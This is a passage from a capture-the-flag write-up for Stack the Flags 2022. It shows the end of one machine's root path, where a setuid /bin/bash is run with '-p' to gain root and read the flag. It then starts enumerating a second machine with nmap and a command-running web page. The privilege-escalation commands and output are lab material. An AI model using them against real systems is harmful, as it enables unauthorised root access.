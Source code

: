 ```http
        }
    }
}
```

After making the request, we can see in the UI that our request is in queue.

![A screenshot of the Selenium Web queue that shows our payload](/static/images/stack-the-flags-2022/selenium-web-queue.png)

Once it disappears from the queue, it means it’s finished.

We can go back to the remote machine and check.

```
john@electrogrid:/dev/shm$ ls -la /bin/bash           ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

And it worked!

```
john@electrogrid:/dev/shm$ /bin/bash -p               /bin/bash -p
/bin/bash -p
id
uid=1000(john) gid=1000(john) euid=0(root) groups=1000(john)
cat /root/root.txt
STF22{bbe7145febbce7ddd4dd3e22a37e93d1}
```

And thats it for this one!

## Lookout (Fullpwn, 2000 Points)

Note: This will be a short writeup as I used two unintended ways to get system on the machine.

### Enumeration

I’ll start with an `nmap` scan with the usual options:

```
Discovered open port 80/tcp on 10.129.254.249
Discovered open port 135/tcp on 10.129.254.249
Discovered open port 445/tcp on 10.129.254.249
Discovered open port 139/tcp on 10.129.254.249
Discovered open port 53/tcp on 10.129.254.249
Discovered open port 3269/tcp on 10.129.254.249
Discovered open port 389/tcp on 10.129.254.249
Discovered open port 88/tcp on 10.129.254.249
Discovered open port 636/tcp on 10.129.254.249
Discovered open port 3268/tcp on 10.129.254.249
Discovered open port 593/tcp on 10.129.254.249
Discovered open port 464/tcp on 10.129.254.249
```

For the sake of the writeup, I’ll jump straight to the webserver on port 80, where we have a way to execute some commands such as `ping`, `traceroute`, and `nslookup`.
